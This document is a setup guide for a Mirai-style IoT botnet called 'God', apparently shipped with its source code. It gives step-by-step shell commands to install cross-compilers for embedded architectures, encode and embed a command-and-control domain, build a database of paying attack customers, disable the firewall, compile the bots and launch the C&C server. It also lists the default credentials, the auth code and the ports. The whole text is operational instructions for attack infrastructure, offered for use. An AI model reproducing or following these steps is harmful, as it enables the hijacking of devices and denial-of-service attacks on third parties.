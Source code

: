 # make sure to use centos 7 as your main botnet hosting os
# Copy paste this code and put it all on your terminal all at once: 

yum update -y
yum install epel-release -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y

cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
sha256sum go1.13.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
go version
go env
cd ~/

mkdir /etc/xcompile
cd /etc/xcompile

wget https://github.com/foss-for-synopsys-dwc-arc-processors/toolchain/releases/download/arc-2017.09-release/arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2

tar -xf arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2

rm -rf *.tar.bz2
rm -rf *.tar.gz

mv arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install arc
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l


# Domain (you need a domain on cloudflare )
``` put server ip on the cloudflare dns and make it non proxied ```
``` use the enc.c file to encode your domain // ```
``` compail the enc.c file : "gcc enc.c -o enc" ```
``` use it like that ex my domain is https://god.com >> ./enc string god.com```
``` Copy the string that enc generates and past it on /bot/table.c line: 20 and 21 ```
***    add_entry(TABLE_CNC_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here  ***
***    add_entry(TABLE_SCAN_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here ***
``` change ip on /cnc/main.go line 19 from 0.0.0.0 into your vps ip```
``` change ip on /bot/headers/includes.h line 27 from 0.0.0.0 into your vps ip```


# We will setup the database, run these commands on your terminal:

yum install mariadb-server -y
service mariadb restart

# setup mariadb password
mysql_secure_installation

# Now Login with your mysql pass by running this command:

mysql -u root -p**mypasswordhere**

# Now we will add the database, copy and paste this on your terminal:

CREATE DATABASE God;
use God;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'admin', 'izame', 0, 0, 0, 0, -1, 1, 30, '');
exit;

# stting up db infos
go to /cnc/main.go and change 
`const DatabasePass string = "passwordhere"`
line 19 into your dataaabase password


# Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mariadb restart

# Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 777 *
sh build.sh

# Run the cnc
screen -dm ./cncserver

or

screen -S cnc ./cncserver
then click ctrl + a+d

# connecting to the botnet
download client like putty/mobaxterm/kitty/ubuntu
ex : https://putty.org/
ex on how to connect:
https://cdn.discordapp.com/attachments/1130914352250224775/1133719572239876156/image.png

# cnc port
`1337`
# cnc auth code
`WEAREETERNAL`
# bot port
`1337`
# bot folder
`/var/www/html/bins`